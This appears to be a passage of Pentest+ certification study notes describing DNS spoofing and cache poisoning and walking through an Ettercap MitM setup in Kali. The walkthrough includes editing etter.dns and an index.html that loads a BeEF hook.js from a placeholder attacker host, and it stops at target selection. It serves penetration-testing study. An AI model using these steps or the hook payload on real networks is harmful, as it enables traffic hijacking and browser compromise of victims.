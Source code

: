 ### DNS Spoofing
* An attack method used to impersonate a victim's DNS server, forcing them to navigate to a malicious website.
* This attack is accomplished through MitM (Man in The Middle).
* The goal is to exploit the target with a malicious redirect or steal sensitive information from a fake web page.

### DNS Cache Poisoning
* The DNS resolver cache is overwritten on the DNS server with a malicious web address, and the user will receive the malicious site instead of the intended one.

**Use Ettercap in Kali to conduct these attacks**

## Ettercap DNS

### 1) Modify the etter.dns file
* Location: /etc/ettercap/etter.dns
* Add an entry to the file for the domain name example.com and have it point to your kali box.
* Look for the line "microsoft sucks ;) on line 57

### 2) Edit etter.conf file
* Location: /etc/ettercap/etter.conf
* Change two config settings: ec_uid and ec_gid. Set both to equal 0.
* Save and exit the file.

### 3) Create index.html
* Create an index.html in /tmp. The code to input is below
````
<html>
      <h1>You got pwnd!!</h1>
      <script src='http://HOST_IP:3000/hook.js'></script>
</html>
````

* Use the Python SimpleHTTPServer module to host the web page on port 80
````
python -m SimpleHTTPServer 80
````

### 4) Launch BeEf
````
beef-xss
````

### 5) Launch Ettercap
````
ettercap -G
````
* "Sniffing at startup" should be selected automatically.
![](https://github.com/azul-007/Certification-Notes/blob/master/Pentest%2B/Ch7_Network_Based_Attacks/images/5_ettercap.png)

### 6) Select the checkmark in the upper right corner to start sniffing

### 7) List the hosts Ettercap has discovered
* Select the vertical elipses in the upper right hand corner.
* Select Hosts > Hosts list
![](https://github.com/azul-007/Certification-Notes/blob/master/Pentest%2B/Ch7_Network_Based_Attacks/images/7_list_hosts.png)

### 8) Identify Target 1 as the target host to redirect and Target 2 as the gateway/DNS server to impersonate
